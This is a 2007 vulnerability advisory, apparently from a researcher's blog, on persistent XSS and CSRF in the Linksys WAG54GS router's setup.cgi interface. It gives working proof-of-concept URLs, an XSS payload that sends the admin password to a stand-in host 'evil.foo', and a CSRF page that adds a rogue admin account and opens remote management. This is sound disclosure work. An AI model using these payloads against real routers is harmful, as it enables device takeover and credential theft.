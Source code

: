 ```yaml
---
title: Persistent XSS and CSRF on Wireless-G ADSL Gateway with SpeedBooster (WAG54GS)
author: adrian-pastor
date: Tue, 20 Nov 2007 20:51:16 GMT
template: post.jade
---
```


I really think that web interfaces are the _low-hanging fruit_ of embedded devices. Sure classic attacks such as predictable SNMP community strings, exposed TFTP services and buffer overflows still apply. However, by exploiting the web interface we can steal the data we want, we can enable remote access to the compromised router, we own the victim's connection. In short, bugs on the web interface gives us all we need! Anyway, enough talking! The following are some of the issues I found on the Cisco Linksys WAG54GS.

The following vulns were found on 24 June 2007 and were tested against firmware V1.00.06. The specific persistent XSS holes mentioned in this advisory were fixed by Cisco on firmware version V1.01.03. However, there are still several other persistent XSS plus the system-wide CSRF in the latest firmware. [CVE-2007-3574](http://nvd.nist.gov/nvd.cfm?cvename=CVE-2007-3574) has been assigned to these issues. Thanks a lot to Cisco for being so great when dealing with my emails! Credits also go to pdp for providing feedback, ideas and allowing me to play with his spare [WAG54GS](http://snipurl.com/1txmt) router.

By the way, part of this advisory got leaked some time ago on FD, but I am publishing it as a formal release with additional information including a password leak which can be combined with any of the persistent XSS holes found (keep reading for more info on this).

### Description

There are several persistent XSS vulnerabilities on the `/setup.cgi` script. It is possible to inject JavaScript by assigning a payload like the following to any of the vulnerable parameters:

    ><script>[PAYLOAD]</script>

    The vulnerable (non-sanitized) parameters are the following: `devname`, `snmp_getcomm`, `snmp_setcomm`, `c4_trap_ip_`. Additionally, all HTTP requests are not tokenized with random values. Thus, all requests to the router's HTTP interface are vulnerable to Cross-site Request Forgeries (CSRF), perhaps by design. The following is an example of a HTTP request (notice the lack of non-predictable tokens):

    POST /setup.cgi HTTP/1.1
    Authorization: Basic YWRtaW46YWRtaW4=

    mtenRestore=Restore+Factory+Defaults&todo=defaultsettings&this_file=Factorydefaults.htm&next_file=index.htm&message=

    Although the original request is a POST, we can convert it to a GET, so that all posted parameters can be submitted on a single URL. For example, the previous POST request can be converted to a URL such as the following:

    http://admin:admin@192.168.1.1/setup.cgi?mtenRestore=Restore+Factory+Defaults&todo=defaultsettings&this_file=Factorydefaults.htm&next_file=index.htm&message=

    By forging administrative requests (Administration button on the router's HTML menu), an attacker can compromise the router provided the victim user visits a malicious URL or HTML page. The attack can only be successful if the administrator hasn't changed the default credentials (admin/admin) or the administrator's browser has an active authentication session with the router's interface when the attack happens (highly unlikely)

    ### Persistent XSS PoC

    The following URL creates a DoS condition by making the Administration page inaccessible since `history.back()` will run every time the Administration page is visited. Thus the administrator won't be able to ever change the default credentials unless a hard reset is performed by using the router's physical "restart" switch:

    http://admin:admin@192.168.1.1/setup.cgi?user_list=1&sysname=admin&sysPasswd=admin&sysConfirmPasswd=admin&remote_management=enable&http_wanport=8080&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=1&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=">history.back()&h_snmp_enable=enable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=

    Note that he administration page (`/setup.cgi?next_file=Administration.htm`) returns the admin password within the client-side HTML source code as a hidden field. i.e.:

    <input type="hidden" name="old_pwd" value="admin">

    Therefore, we could also inject a payload in our persistent XSS attack which accesses the admin password through the DOM object:

    document.administration.old_pwd.value

    ...and submits it to the attacker's site every time the page is accessed. That way, even if the victim admin changed the password, the attacker would receive the value of the new password! Here is an example payload:

    "><script>img=new Image();img.src='http://evil.foo/?last_pwd='+document.administration.old_pwd.value</script><a b="

    ### CSRF PoC

    The following HTML page does the following:

* adds an additional administrative account, with a username equals to 'attacker' and a password equals to 0wned (without removing original admin account!)
* enables remote HTTP management over port 1337
* sets other settings that are inrelevant to this discussion

    <html>
    <body>
    	<script>
    	// send 2 requests to add an administrative account and enable remote management
    	// tries with default credentials and with credentials cached by browser (if any)

    	var img = new Image();
    	var img2 = new Image();

    	img.src = 'http://admin:admin@192.168.1.1/setup.cgi?user_list=8&sysname=attacker&sysPasswd=0wned&sysConfirmPasswd=0wned&remote_management=enable&http_wanport=1337&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=8&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=&h_snmp_enable=disable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=';
    	img2.src = 'http://192.168.1.1/setup.cgi?user_list=8&sysname=attacker&sysPasswd=0wned&sysConfirmPasswd=0wned&remote_management=enable&http_wanport=1337&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=8&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=&h_snmp_enable=disable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=';
    	</script>
    </body>
    </html>

The first URL forges the administrative request using the default credentials, so it won't work if default credentials have been changed. The second URL doesn't specify any credentials as an attempt to use the browser's cached credentials. If the admin user has clicked on "Save password" on the basic authentication prompt, most browsers will prompt the user to confirm submitting the cached credentials. The only situation in which browsers won't ask the user to confirm submitting the credentials would be if the malicious CSRF page was visited while the browser has an active authenticated session with the router's HTTP interface (very unlikely).

### Additional notes

* router reboots after saving settings (requests sent to `setup.cgi`)
* all attacks were tested using Internet Explorer 7
